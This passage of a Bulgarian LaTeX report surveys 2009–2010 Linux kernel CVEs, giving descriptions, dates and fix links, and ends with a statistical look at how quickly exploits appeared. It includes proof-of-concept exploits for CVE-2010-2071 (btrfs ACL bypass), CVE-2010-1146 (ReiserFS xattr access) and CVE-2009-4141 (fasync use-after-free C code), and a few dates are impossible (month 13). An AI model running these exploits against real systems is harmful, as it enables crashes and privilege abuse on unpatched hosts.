                                argp->pagelen -= PAGE_SIZE;
                        }
                }
\end{verbatim}

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-04-20
    \item Оправен: 2010-04-26\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=6513a81e9325d712f1bfb9a1d7b750134e49ff18}}
\end{itemize}


\section{CVE-2010-2495 CVSS Score 10}
\subsection{Описание}
\paragraph{}

Функцията \textit{pppol2tp\_xmit} в \textit{drivers/net/pppol2tp.c} в L2TP имплементацията при Linux ядрата преди 2.6.34 не валидира правилно някои стойности, свързани с интерфейс. Това позволява атакуващия да причини DoS (дереференциране на нулев указател и OOPS) или да причини други щети, чрез вектори, свързани с промяната на routing-а.

%> "When transmitting L2TP frames, we derive the outgoing interface's UDP
%> 
%> checksum hardware assist capabilities from the tunnel dst dev. This
%> can 
%> sometimes be NULL, especially when routing protocols are used and 
%> routing changes occur. This patch just checks for NULL dst or dev 
%> pointers when checking for netdev hardware assist features.
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 
  	\item Добива публичност: 2010-03-16
    \item Оправен: 2010-03-16\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=3feec9095d12e311b7d4eb7fe7e5dfa75d4a72a5}}
\end{itemize}

\section{CVE-2010-2954 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
Функцията \textit{irda\_bind} от \textit{net/irda/af\_irda.c} в Linux ядрото преди версия 2.6.36-rc3-след-20100901 не реагира правилно на случая, когато изпълнението на функцията \textit{irda\_open\_tsap} се провали. Това позволява на локални потребители да предизвикат DoS (дереференциранне на нулев указател), чрез няколко неуспешни извиквания на функцията \textit{bind} за AF\_IRDA сокет.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2009-11-06
  	\item Добива публичност: 2010-08-30\footnote{\url{https://bugzilla.redhat.com/show_bug.cgi?id=628770}}
    \item Оправен: 2010-08-31\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/davem/net-2.6.git;a=commitdiff;h=628e300cccaa628d8fb92aa28cb7530a3d5f2257}}
\end{itemize}

\section{CVE-2010-2960 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
Уязвимостта се намира във функцията \textit{keyctl\_session\_to\_parent} при версия на 
Linux ядрото 2.6.35.4 и по-ранните от нея. Локални потребители могат да 
предизвикат DoS или евентуално някакъв друг проблем, като извикат 
функцията \textit{keyctl} с аргумент \textit{keyctl\_session\_to\_parent}, което задейства 
дереференциране на нулев указател.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2009-09-02
  	\item Добива публичност: 2010-08-25
    \item Оправен: 2010-09-10\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=3d96406c7da1ed5811ea52a3b0905f4f0e295376}}
\end{itemize}

\section{CVE-2010-2959 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
В имплементацията на Controller Area Network\footnote{Controller Area Network – стандарт за комуникация между микропроцесори}
 за версиите на Linux ядрото 
преди 2.6.27.53, 2.6.32.x преди 2.6.32.21, 2.6.34.x преди 2.6.34.6 и 2.6.35.x 
преди 2.6.35.4 може да се стигне до препълване на целочислен тип. 
Конкретният файл на имплементацията е \textit{net/can/bcm.c}. Това може да позволи 
на локален атакуващ да изпълни свой код или да предизвика DoS, 
използвайки специално проектиран за целта CAN трафик.


\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2007-11-16
  	\item Добива публичност: 2010-08-20
    \item Оправен: 2010-08-11\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=5b75c4973ce779520b9d1e392483207d6f842cde}}
\end{itemize}

\section{CVE-2010-2798 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
Уязвимостта е свързана с функцията \textit{gfs2\_dirent\_find\_space} от \textit{fs/gfs2/dir.c} при 
версии на Linux ядрото преди 2.6.35, която използва неправилна стойност при 
някои пресмятания, които извършва. Локален потребител с достъп до mount-ната GFS2 файлова система би могъл да придобие допълнителни привилегии 
или да предизвика DoS, чрез специална операция за преименуване, която 
задейства дереференциране на нулев указател.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2006-03-20
  	\item Добива публичност: 2010-08-01
    \item Оправен: 2010-07-14\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=728a756b8fcd22d80e2dbba8117a8a3aafd3f203}}
\end{itemize}

\section{CVE-2010-3015 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
При версиите на Linux ядрото преди 2.6.34 локални потребители могат да 
предизвикат DoS (забиване) поради препълване на целочислен тип във 
функцията \textit{ext4\_ext\_get\_blocks} от \textit{fs/ext4/extents.c}. Това се получава чрез 
операция за писане на последния блок от голям файл, последвана от sync 
операция.


\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2006-10-11
  	\item Добива публичност: 2010-08-15
    \item Оправен: 2010-03-04\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=731eb1a03a8445cde2cb23ecfb3580c6fa7bb690}}
\end{itemize}

\section{CVE-2010-2071 CVSS Score 4.6}
\subsection{Описание}
\paragraph{}
Функцията \textit{btrfs\_xattr\_set\_acl} от \textit{fs/btrfs/acl.c} при Btrfs\footnote{Btrfs - B-tree file system}
 на  Linux ядрото версия 
2.6.34 и по-ранните от нея не проверява кой е собственикът на даден файл, 
което позволява на локални потребители да заобиколят файловия режим за 
достъп поставяйки собствени списъци за контрол на достъпа (ACLs).

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2008-01-14
  	\item Добива публичност: 2010-05-18
    \item Оправен: 2010-06-11\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=2f26afba}}
\end{itemize}

\subsection{Exploit}
\paragraph{}
В следващия exploit от Shi Weihua е показано, как на практика може да се 
случи обяснената по-горе ситуация.

\begin{verbatim}
# su user1
# cd btrfs-part/
# touch aaa
# getfacl aaa
  # file: aaa
  # owner: user1
  # group: user1
  user::rw-
  group::rw-
  other::r--
# su user2
# cd btrfs-part/
# setfacl -m u::rwx aaa
# getfacl aaa
  # file: aaa
  # owner: user1
  # group: user1
  user::rwx           вижда се, че успешно е променен user-а на файл aaa
  group::rw-
  other::r—
\end{verbatim}
\paragraph{}
При нормални обстоятелства не би трябвало \textit{user2} да може да променя 
списъка за достъп на \textit{user1}.


\section{CVE-2010-1641 CVSS Score 4.6}
\subsection{Описание}
\paragraph{}
Функцията \textit{do\_gfs2\_set\_flags} в \textit{fs/gfs2/file.c} от Linux ядрото преди версия 2.6.34-
git10 не проверява кой е собственикът на даден файл, което позволява на локални потребители да заобиколят предвидените ограничения на достъп чрез системното извикване setflags ioctl.

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2006-06-14
  	\item Добива публичност: 2010-03-25
    \item Оправен: 2010-03-25\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=7df0e0397b9a18358573274db9fdab991941062f}}
\end{itemize}

\section{CVE-2010-1162 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
Функцията \textit{release\_one\_tty} от \textit{drivers/char/tty\_io.c} на Linux ядрото преди 2.6.34-
rc4 пропуска някои задължителни извиквания на функцията \textit{put\_pid}. Това има 
неустановено въздействие, а векторът на атака използваща тази уязвимост е 
локален.

\begin{itemize}
    \item Тип: -
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-04-13
    \item Оправен: 2010-04-02\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=6da8d866d0d39e9509ff826660f6a86a6757c966}}
\end{itemize}

\section{CVE-2010-1146 CVSS Score 6.9}
\subsection{Описание}
\paragraph{}
При версия на Linux ядрото 2.6.33.2 и по-ранните от нея, когато е на лице 
ReiserFS файлова система, не се ограничава достъпът за четене и писане до 
директорията \textit{.reiserfs\_priv}, което може да позволи на локалните потребители 
да придобият допълнителни привилегии като променят extended attributes\footnote{Extended file attributes – функция на файлова система да свързва файлове с метаданни, които 
не се интерпретират от нея, докато нормалните атрибути са строго дефинирани}
или списъци за контрол на достъпа (ACL\footnote{ACL - Access Control List}).


\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от:
  	\item Добива публичност: 2010-02-24
    \item Оправен: 2010-04-08\footnote{\url{http://marc.info/?l=linux-kernel&m=127076012022155&w=2}}
\end{itemize}

\subsection{Exploit}
като root:
\begin{verbatim}
truncate --size 64M test.reiserfs
mkreiserfs -f test.reiserfs
mkdir /mnt/test
mount -o loop,rw,user_xattr test.reiserfs /mnt/test
setfattr -n user.test -v myvalue /mnt/test
\end{verbatim}
като непривилегирован потребител:
\begin{verbatim}
ls -l /mnt/test/.reiserfs_priv/xattrs/2.0
rm /mnt/test/.reiserfs_priv/xattrs/2.0/user.test 
\end{verbatim}
Вижда се, че непривилигирован потребител може да пише в \textit{/mnt/test/.reiserfs\_priv}.


\section{CVE-2010-1148 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
Функцията \textit{cifs\_create} в \textit{fs/cifs/dir.c} в Linux ядрото версия 2.6.33.2 и по-
ранните от нея позволява на локални потребители да предизвикат DoS или 
евентуално някакъв друг проблем, посредством нулево \textit{nameidata} (още 
известно като nd) поле в POSIX-заявка за създаване на файл до сървър, 
поддържащ UNIX-разширения.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2009-02-23
  	\item Добива публичност: 2010-04-02
    \item Оправен: 2010-04-22\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=fa588e0c57048b3d4bfcd772d80dc0615f83fd35}}
\end{itemize}


\section{CVE-2010-1088 CVSS Score 5.4}
\subsection{Описание}
\paragraph{}
При версиите на Linux ядрото между 2.6.18 и 2.6.34 в \textit{fs/namei.c} не винаги бива 
следвани NFS symlink-овете, което позволява на атакуващ да 
окаже неясно въздействие върху системата, свързано с LOOKUP\_FOLLOW.

\begin{itemize}
    \item Тип: -
    \item Съществува от:
  	\item Добива публичност: 2010-02-16
    \item Оправен: 2010-02-19
\end{itemize}

\section{CVE-2010-1083 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
Функцията \textit{processcompl\_compat} от \textit{drivers/usb/core/devio.c} при версия на Linux 
ядрото 2.6.32 и по-ранни от нея, не изтрива данните от буфера на 
прехвърлянето преди да се върне към потребителската памет, когато се 
провали USB команда. Това може да бъде използвано от атакуващи, които се 
намират във физическа близост с машината да видят защитена информация 
(от паметта на ядрото).


\begin{itemize}
    \item Тип: -
    \item Съществува от:
  	\item Добива публичност: 2010-02-17\footnote{\url{http://www.openwall.com/lists/oss-security/2010/02/18/7}}
    \item Оправен: 2010-02-19\footnote{\url{http://lwn.net/Articles/375350/}}
\end{itemize}


\section{CVE-2010-1087 CVSS Score 7.8}
\subsection{Описание}
\paragraph{}
Функцията \textit{nfs\_wait\_on\_request} от \textit{fs/nfs/pagelist.c} в Linux ядрото при версиите 
преди 2.6.33-rc5 позволява на атакуващи да причинят DoS, като начина за 
това включва  „отрязване“ на файл и операция, която не може да бъде 
прекъсвана. 

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от:
  	\item Добива публичност: 2010-02-22\footnote{\url{https://bugzilla.redhat.com/show_bug.cgi?id=567184}}
    \item Оправен: 2010-03-03\footnote{\url{http://www.openwall.com/lists/oss-security/2010/03/03/1}}
\end{itemize}


\section{CVE-2010-1086 CVSS Score 7.8}
\subsection{Описание}
\paragraph{}
Функционалността за декапсулация на ULE (Unidirectional Lightweight 
Encapsulation)
 в \textit{drivers/media/dvb/dvb-core/dvb\_net.c} в Linux ядрото при 
версия 2.6.33 и по-ранните от нея позволява на атакуващ да причини DoS 
(безкраен цикъл) посредством специфични MPEG2-TS фреймове, когато 
указател, свързан с полезния товар във фрейма, има стойност 182 или 183.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-02-28
    \item Оправен: 2010-03-01\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=29e1fa3565a7951cc415c634eb2b78dbdbee151d}}
\end{itemize}


\section{CVE-2010-1085 CVSS Score 7.1}
\subsection{Описание}
\paragraph{}
Функцията \textit{azx\_position\_ok} в \textit{sound/pci/hda/hda\_intel.c} за версия на Linux ядрото 
2.6.33-rc6 и по-ранните от нея позволява на локални потребители при 
специфични условия да предизвикат DoS чрез манипулации, водещи до 
деление на нула. В първия описан случай\footnote{\url{http://lkml.org/lkml/2010/2/5/322}}
 става въпрос за приложение за 
слушане на музика (mp3blaster), при което потребителят многократно пускал 
и спирал възпроизвеждането, натискайки клавиша „5“. Това причинило 
забиване на системата.


\section{CVE-2010-1084 CVSS Score 7.1}
\subsection{Описание}
\paragraph{}
Проблемът, който предстои да опишем се отнася до версии на Linux ядрото 
между 2.6.18 и 2.6.33 и позволява на отдалечени атакуващи да причинят DoS. 
Когато биват създадени множество Bluetooth сокети с някой от протоколите 
L2CAP (Logical link control and adaptation protocol), SCO (Synchronous connection 
oriented) и RFCOMM (Radio frequency communication) е възможно да се пише 
многократно на случайни страници от паметта. Този проблем произлиза от 
големината на файловете в \textit{sysfs} в \textit{net/bluetooth/l2cap.c}, 
\textit{net/bluetooth/rfcomm/core.c}, \textit{net/bluetooth/rfcomm/sock.c} и \textit{net/bluetooth/sco.c}. 

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2010-13-15
    \item Оправен: 2010-13-21\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=101545f6fef4a0a3ea8daf0b5b880df2c6a92a69}}
\end{itemize}

\section{CVE-2010-1188 CVSS Score 7.1}
\subsection{Описание}
\paragraph{}
Уязвимостта е свързана с опит за достъпване на вече освободена памет в 
\textit{net/ipv4/tcp\_input.c} в Linux ядрото преди версия 2.6.20, когато 
IPV6\_RECVPKTINFO флага е вдигнат за слушащ сокет. Възможно е за 
отдалечени атакуващи да причинят DoS посредством SYN пакет, докато 
сокетът „слуша“ (е в състояние TCP\_LISTEN), което (състояние) не е правилно 
поддържано и се причинява освобождаването на структурата \textit{skb} с 
извикването на функцията \textit{tcp\_rcv\_state\_process()}.

\section{CVE-2010-1187 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
Функционалността за TIPC\footnote{Transparent Inter-Process Communication – мрежов протокол за между-процесна комуникация} в Linux ядрото от 2.6.16-rc1 до 2.6.33, позволява 
на локални потребители да предизвикат DoS изпращайки пакети през AF\_TIPC 
без да са влезли в мрежов решим, което задейства дереференциране на нулев 
указател.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от:
  	\item Добива публичност: 
    \item Оправен: 2010-03-30\footnote{\url{http://patchwork.ozlabs.org/patch/46856/}}
\end{itemize}


\section{CVE-2010-0437 CVSS Score 7.8}
\subsection{Описание}
\paragraph{}
Функцията \textit{ip6\_dst\_lookup\_tail} в \textit{net/ipv6/ip6\_output.c} при Linux ядрото – версии 
преди 2.6.27 не се справя с някои специфични обстоятелства, свързани с IPv6 
TUN мрежов интерфейс и голям брой съседи. При това се позволява на 
атакуващи да причинят DoS (дереференциране на нулев указател и 
съответно забиване).


\section{CVE-2010-0727 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
Функцията \textit{gfs2\_lock} в \textit{fs/gfs2/file.c} за версии на ядрото преди 2.6.34-rc1-след-
20100312 не премахва правилно POSIX
 заключване на файлове, за които е 
вдигнат setgid\footnote{setgid – set group ID upon execution – флагове за права за достъп, позволяващи на 
потребителите да изпълняват файлове с правата на групата собственици на файловете}
 флаг без правото \textit{group-execute}. Това позволява на локални 
потребители да предизвикат DoS (забиване), като заключат файл на GFS или 
GFS2 файлова система и после променят правата за този файл. С тази 
уязвимост е свързана и друга, открита още през 2006-та година – CVE-2007-
6733, която има сходен характер.




\section{CVE-2010-0410 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
Тази уязвимост е открита от Себастиан Крамер
 в \textit{drivers/connector/connector.c }
в Linux ядрото преди версия 2.6.32.8. Проблемът се изразява в това, че чрез изпращане на множество NETLINK\_CONNECTOR съобщения до ядрото, локални 
потребители могат да предизвикат DoS (консумация на прекомерно 
количество памет и забиване).

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2005-09-11
  	\item Добива публичност: 2010-01-27
    \item Оправен: 2010-02-02\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commit;h=f98bfbd78c37c5946cc53089da32a5f741efdeb7}}
\end{itemize}


\section{CVE-2010-0623 CVSS Score 4.9}
\subsection{Описание}
\paragraph{}
Функцията \textit{futex\_lock\_pi} от \textit{kernel/futex.c} в Linux ядрото – версии по-ранни от 
2.6.33-rc7 не управлява правилно определен брояч, което позволява на 
локални потребители да предизвикат DoS, по начини включващи unmount-
ване на ext3 файлова система.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от: 2006-06-27
  	\item Добива публичност: 2009-09-29
    \item Оправен: 2010-02-02\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=51246bfd189064079c54421507236fd2723b18f3}}
\end{itemize}

\section{CVE-2010-0622 CVSS Score 2.1}
\subsection{Описание}
\paragraph{}
Функцията \textit{wake\_futex\_pi} от \textit{kernel/futex.c} в Linux ядрото преди версия 2.6.33-
rc7 не се справя правилно с някой отключващи операции за futex\footnote{fast userspace mutual exclusion – конструкция в Linux използвана за имплементация на базово 
заключване или като част от абстракции за заключване от по-високо ниво}
 за наследяване на приоритети, което позволява на локални потребители да 
предизвикат DoS или евентуално да окажат някакво друго влияние, 
модифицирайки стойността на futex-а от потребителската памет.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от:
  	\item Добива публичност: 2010-02-02
    \item Оправен: 2010-02-09\footnote{\url{http://www.openwall.com/lists/oss-security/2010/02/09/2}}
\end{itemize}

\section{CVE-2010-0307 CVSS Score 4.7}
\subsection{Описание}
\paragraph{}
При версиите на Linux ядрото преди 2.6.32.8 върху x86\_64 платформа, 
функцията \textit{load\_elf\_binary} от \textit{fs/binfmt\_elf.c} не подсигурява че ELF 
интерпретатора е налице преди да извика макроса SET\_PERSONALITY. Това 
позволява на локални потребители, да причинят DoS (забиване на системата), 
чрез 32-битово приложение, което се опитва да изпълни 64-битово 
приложение и после задейства грешка в сегментацията, свързана с 
функцията flush\_old\_exec. Това е показано на практика от Матиас Краусе в 
неговият exploit amd64\_killer.c на 2010-01-28\footnote{http://marc.info/?l=linux-mm&m=126466407724382&w=2}


\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от:
  	\item Добива публичност: 
    \item Оправен: 2010-02-04\footnote{\url{ http://www.openwall.com/lists/oss-security/2010/02/04/9}}
\end{itemize}


\section{CVE-2010-0291 CVSS Score 4.6}
\subsection{Описание}
\paragraph{}
Проблемът се състои в това, че извиквайки функциите \textit{mmap} или \textit{mremap}, 
локални потребители могат да предизвикат DoS или да получат 
допълнителни права. Уязвимостта е известна и като "do\_mremap() mess" или 
"mremap/mmap mess". За сяга във версиите на ядрото преди 2.6.32.4. 
Проблемът, заедно с примерно разрешение за него е разгледан от Ал Виро 
още на 2009-12-05.

\begin{itemize}
    \item Тип: \textit{DoS, privileges escalation}
    \item Съществува от:
  	\item Добива публичност: 2009-12-05
    \item Оправен: 2010-01-18
\end{itemize}


\section{CVE-2009-4272 CVSS Score 7.8}
\subsection{Описание}
\paragraph{}
Оказва се, че Linux ядрото е уязвимо за DoS атака, поради грешки в 
имплементацията на рутирането и по-конкретно в \textit{net/ipv4/route.c}. С 
изпращането на специално модифицирани пакети, които да предизвикат колизии в IPv4 routing хеш таблицата, отдалечен атакуващ би могъл да 
задейства спешен route flush, при което на свой ред възниква замръзване или 
до route look-up на неинициализиран указател. Уязвимостта е свързана с 
версии на ядрото преди 2.6.31 (първоначално е докладвана за 2.6.18), при 
които routing кешът не е позволен и за които гореспоменатия указател не е 
инициализиран.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от:
  	\item Добива публичност: 2009-12-08
    \item Оправен: 2010-01-20\footnote{\url{http://www.openwall.com/lists/oss-security/2010/01/20/6}}
\end{itemize}

\section{CVE-2010-0006 CVSS Score 7.1}
\subsection{Описание}
\paragraph{}
Функцията \textit{ipv6\_hop\_jumbo} от \textit{net/ipv6/exthdrs.c} в Linux ядрото преди версия 
2.6.32.4, при  позволени network namespace-ове, позволява отдалечени 
атакуващи да причинят DoS (използвайки нулев указател), посредством 
невалидen IPv6 jumbo фрейм.

\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от:
  	\item Добива публичност: 2010-01-13
    \item Оправен: 2010-01-14\footnote{\url{http://marc.info/?l=linux-netdev&m=126343325807340&w=2}}
\end{itemize}

\section{CVE-2010-0007 CVSS Score 2.1}
\subsection{Описание}
\paragraph{}
Уязвимостта е свързана с netfilter framework-а, служещ основно за филтриране 
на пакети. В неговият модул \textit{ebtables} (\textit{net/bridge/netfilter/ebtables.c}) при версии 
на ядрото по-ранни от 2.6.33-rc4 функциите \textit{do\_ebt\_set\_ctl()} и 
\textit{do\_ebt\_get\_ctl()} не проверяват възможността CAP\_NET\_ADMIN, което може 
да позволи на злонамерени локални потребители да задават или променят 
правилата в ebtable-ите.
\begin{itemize}
    \item Тип: \textit{DoS}
    \item Съществува от:
  	\item Добива публичност: 2010-02-08
    \item Оправен: 2010-01-13\footnote{\url{http://www.openwall.com/lists/oss-security/2010/01/14/1}}
\end{itemize}

\section{CVE-2009-4141 CVSS Score 7.2}
\subsection{Описание}
\paragraph{}
Уязвимостта е докладвана за версия на Linux ядрото 2.6.28 и се основавава на 
грешка свързана с  използване на вече освободена памет, при работата с 
файлови дескриптори с вдигнат FASYNC флаг (още известен като O\_ASYNC или 
FIOASYNC). Това може да бъде използвано, за да се причини забиване или за 
да се изпълни код със root права. Ще цитираме анализ на Линус Торвалдс по 
темата: „Проблемът е, че един и същ файлов дескриптор може да бъде 
влючен в няколко fasync списъка. Той може да присъства в един fasync списък 
само веднъж, но заключването на файлове е специфично и използва списъка 
'fl->fl\_fasync', за добавянето на случаен файл към своя собствен fasync списък, 
без значение дали това се случва върху драйвер за някакво устройство или 
нещо друго“ 
\paragraph{}
Това е проблем, тъй като fasync\_helper() ще свали FASYNC флага, погрешно 
предполагайки, че един файл може да бъде само в един fasync списък:

\begin{verbatim}
http://lxr.linux.no/#linux+v2.6.30.4/fs/fcntl.c#L566
566        if (on)
567                filp->f_flags |= FASYNC;
568        else
569                filp->f_flags &= ~FASYNC;
570        write_unlock_irq(&fasync_lock);
571        spin_unlock(&filp->f_lock);
572        return result;
\end{verbatim}
Когато накрая дескриптора бива затворен и файлът обновен, FASYNC флагът 
няма да бъде вдигнат и така няма да бъде премахнат от fasync списъка, 
оставяйки невалидна референция към освободената структура.

\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: преди 2005г.
  	\item Добива публичност: 2009-12-01
    \item Оправен: 2009-12-16\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=53281b6d3}}
\end{itemize}

\subsection{Exploit}
\paragraph{}
Примерен exploit е публикуван от Тавис Орманди(2010-01-14).
\paragraph{}
Exploit-ът използва модифициран указател от потребителската памет, като 
целта е да предизвика забиване.
\begin{verbatim}
int main(int argc, char **argv)
{
    int fd;
    pid_t child;
    unsigned flag = ~0;
    fd = open("/dev/urandom", O_RDONLY);
// установяване на екслузивно заключване без блокиране 
flock(fd, LOCK_EX | LOCK_NB);
    // вдигане на ASYNC флага на дескриптора
    ioctl(fd, FIOASYNC, &flag);
    // затваряне на файловия дескриптор, за да се предизвика проблема
    close(fd);
    // извършване на операции с цел да се запълни AT_RANDOM, което ще 
предизвика използването на освободеният файл
    // Предполага се, че /bin/true е elf executable4
 и че ядрото 
поддържа AT_RANDOM.
    do switch (child = fork()) {
            case  0: execl("/bin/true", "/bin/true", NULL);
                     abort();
            case -1: fprintf(stderr, "fork() failed, %m\n");
                     break;
            default: fprintf(stderr, ".");
                                 break;
    } while (waitpid(child, NULL, 0) != -1);
    fprintf(stderr, "waitpid() failed, %m\n");
    return 1;}
\end{verbatim}

\newpage
\part{Статистически анализ}
\setcounter{section}{0}
\section{Статистически анализ на времето за излизане на exploit за намерените проблеми}
\paragraph{}
На хистограмата по-долу по оста X е разликата в дни между датата на излизане на екслойт и датата на придобиване на публичност на проблема.Вижда се за колко време най-често е излизал exploit. Някои exploit-и обаче са излезли преди да се даде публичност на проблема, други излизат доста време след като преоблемът вече е на лице, а даже и след като вече е решен.


\includegraphics{time_for_exploit}

\newpage
\section{Статистически анализ на времето за решаване на намерените проблеми}
\paragraph{}






\end{document}
